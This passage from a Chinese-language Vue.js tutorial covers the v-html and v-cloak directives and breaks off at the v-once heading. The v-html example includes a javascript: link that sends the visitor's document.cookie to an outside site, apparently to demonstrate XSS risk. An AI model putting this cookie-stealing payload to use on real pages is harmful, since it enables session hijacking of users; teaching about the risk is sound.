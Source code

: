 ```html
            name:"Hello",
            str: "<h2>你好</h2>",
            str1: "<a href=javascript:location.href='http://bilibili.com?' + document.cookie>请点击</a>"
        }
    });
</script>
```

### 3.v-cloak

`v-cloak`指令（没有值）：

1. 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉`v-cloak`属性
2. 使用css配合`v-cloak`可以解决网速慢页面展示出`{{xxx}}`的问题

```html
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>v-cloak</title>
    <style>
        [v-cloak] {
            display: none;
        }
    </style>
</head>

<body>
    <div id="app">
        <h1 v-cloak>{{name}}</h1>
    </div>

    <!--导入vue start-->
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
    <!--导入vue end-->
</body>
<script>
    /* 阻止 vue 在启动时生成生产错误 */
    Vue.config.productionTip = false;
    new Vue({
        el: "#app",
        data: {
            name: "Hello",
        }
    });
</script>
```

### 4.v-once

